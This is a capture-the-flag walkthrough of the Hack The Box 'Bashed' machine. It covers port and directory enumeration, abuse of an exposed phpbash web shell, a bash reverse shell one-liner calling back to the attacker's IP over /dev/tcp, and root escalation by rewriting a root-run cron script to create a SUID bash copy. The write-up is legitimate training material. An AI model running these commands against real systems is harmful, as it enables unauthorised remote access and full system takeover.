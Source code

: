 ```yaml
---
name: Bashed
difficulty: easy
os: linux
platform: htb
date: 2025/10/02
releasedDate: 2009-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/0f058b73659ca043de9f5240abd651ca.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.68 -o allPorts
```

```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p <ports> -sCV <dns>.htb -o targeted
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

We find a web server running Apache 2.4.18 on port 80. We will visit the website in our browser to see if there is any interesting content.

![](images/bashed/2025-10-02-18-29-17.png)

We do not see much on the homepage, so we will use a directory brute-forcing tool like ffuf to find hidden directories and files.

```bash 
ffuf -u http://10.10.10.68/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```
```
php                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 35ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 36ms]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 35ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 35ms]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 4991ms]
```
We find a directory named `dev`. If we visit it, we see a directory listing page.
![](images/bashed/2025-10-02-19-04-41.png)

We find in `phpbash.php` a bash web shell. We can use it to execute commands on the target machine.

We can use this on our advantage to get a reverse shell. We will use a simple bash reverse shell payload.

First, we will set up a listener on our machine using netcat:
We set up a netcat listener on our machine to catch the reverse shell.

```bash
nc -lvnp 443
```

Then, we will execute the following command in the web shell to get a reverse shell:
```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.10/443 0>%261"
whoami
```
```
www-data
```

Now we can see the user flag in `/home/arrexel/user.txt`.


## User Exploitation

## Root Exploitation

We check the sudo privileges of the `www-data` user.

```bash
sudo -l
```
```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

We can run commands as the `scriptmanager` user without a password. We will switch to the `scriptmanager` user using `sudo -u`.

```bash
sudo -u scriptmanager bash
whoami
```
```
scriptmanager
```

We look for files owned by the `scriptmanager` user outside his home directory or `/proc`.

```bash
find / -user scriptmanager 2>/dev/null | grep -v "/proc" | grep -v "/home/scriptmanager"
```
```
/scripts
/scripts/test.py
```

We look at the `/scripts/test.py` file.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

We also find a `test.txt` file in the `/scripts` directory.

```bash
cat /scripts/test.txt
```
```
testing 123!
```

We guess that `root` runs this script periodically since `test.txt` is owned by `root`.

We will use a simple python payload to try to escalate our privileges.
```python
import os

os.system("cp /bin/bash /tmp/bash; chmod +xs /tmp/bash")
```

We wait for the script to run and then we can use the `/tmp/bash` shell to get a root shell.

```bash
ls -la /tmp/bash
```
```
-rwsr-xr-x 1 root root 1113504 Oct  2 19:25 /tmp/bash
```

```bash
/tmp/bash -p
whoami
```
```
root
```

## Conclusion
We have successfully exploited the `Bashed` machine and obtained both user and root flags. The key steps involved finding a web shell, leveraging it to get a reverse shell, and then exploiting sudo privileges to escalate to root.

